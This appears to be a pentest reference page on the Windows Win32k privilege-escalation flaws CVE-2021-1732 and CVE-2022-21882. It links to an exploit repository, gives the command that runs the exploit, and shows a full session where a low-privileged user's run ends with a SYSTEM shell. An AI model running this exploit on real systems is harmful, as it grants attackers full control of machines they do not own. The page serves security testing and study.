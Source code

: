 ```yaml
---
title : "CVE-2021-1732 / CVE-2022-21882"
# pre : ' '
description : "Win32k Elevation of Privilege Vulnerability."
date : 2022-01-30T15:48:19+01:00
# hidden : true
# draft : true
weight : 350
# tags : ['']
---
```


---

## Win32k Elevation of Privilege Vulnerability - The revive of CVE-2021-1732

Win32k Elevation of Privilege Vulnerability. The Win32k elevation of privilege vulnerability was fixed this month as part of the January 2022 Patch Tuesday, it is the result of a bypass for the previously CVE-2021-1732 flaw that allows anyone to gain admin privileges in Windows 10.

## Installation

Build your own `.exe` from [source](https://github.com/KaLendsi/CVE-2022-21882).

## Usage

```plain
CVE-2021-1732.exe whoami
```

## Examples

```plain
Microsoft Windows [Version 10.0.17763.107]
(c) Microsoft Corporation. All rights reserved.

C:\Users\lowpriv> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
JohnDo
The command completed successfully.

C:\Users\lowpriv> whoami
desktop-qiv0pbc\lowpriv

C:\temp>CVE-2021-1732.exe whoami
CreateWnd
Hwnd:000b014a   qwfirstEntryDesktop=000001966C345110
BaseAddress:000001966C345000   RegionSize=:000000000001A000
Hwnd:00050406   qwfirstEntryDesktop=000001966C3431C0
BaseAddress:000001966C343000   RegionSize=:000000000001C000
Hwnd:000903b2   qwfirstEntryDesktop=000001966C342A20
BaseAddress:000001966C342000   RegionSize=:000000000001D000
Hwnd:000300d8   qwfirstEntryDesktop=000001966C342B70
BaseAddress:000001966C342000   RegionSize=:000000000001D000
Hwnd:0013016c   qwfirstEntryDesktop=000001966C341B90
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:00050414   qwfirstEntryDesktop=000001966C341CE0
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:0005017c   qwfirstEntryDesktop=000001966C341E30
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:000502da   qwfirstEntryDesktop=000001966C356830
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Hwnd:00020384   qwfirstEntryDesktop=000001966C356980
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Hwnd:000203ac   qwfirstEntryDesktop=000001966C356AD0
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Min BaseAddress:000001966C341000   RegionSize=:000000000001E000
realMagicHwnd=00000000000303AC
Free ExtraBytes:000000000000124D
set ExtraData == 00000000000431C0
Free ExtraBytes:000000000000124D
dwRet=000000000000FA90
tagWndMin_offset_0x128=000000000000FA90
g_qwvuln=FFFFB73700826960
qwFrist read=FFFFB73700831E70
qwSecond read=FFFFC98914160810
qwSecond read=FFFFB73701A00000
qwFourth read=FFFFB737017F8010
qwFifth read=FFFFC989207F2080
qwSixth read=FFFFC98921421300
[*] Trying to execute whoami as SYSTEM
[+] ProcessCreated with pid 11296!
===============================
nt authority\system
```

## URL List

- [Github.com - CVE-2022-21882](https://github.com/KaLendsi/CVE-2022-21882)
- [Nvd.nist.gov - CVE-2021-1732](https://nvd.nist.gov/vuln/detail/CVE-2021-1732)
- [Securityaffairs.co - Expert releases PoC for CVE-2022-21882 Windows local privilege elevation issue](https://securityaffairs.co/wordpress/127377/hacking/cve-2022-21882-win-local-privilege-elevation.html)
- [Twitter.com - @kalendsi](https://twitter.com/kalendsi/status/1483770845138804738)
- [Twitter.com - @0x6d69636b](https://twitter.com/0x6d69636b/status/1486960626220118017?s=11)
- [Nvd.nist.gov - CVE-2022-21882](https://nvd.nist.gov/vuln/detail/CVE-2022-21882)
- [Portal.msrc.microsoft.com - Win32k Elevation of Privilege Vulnerability](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2022-21882)
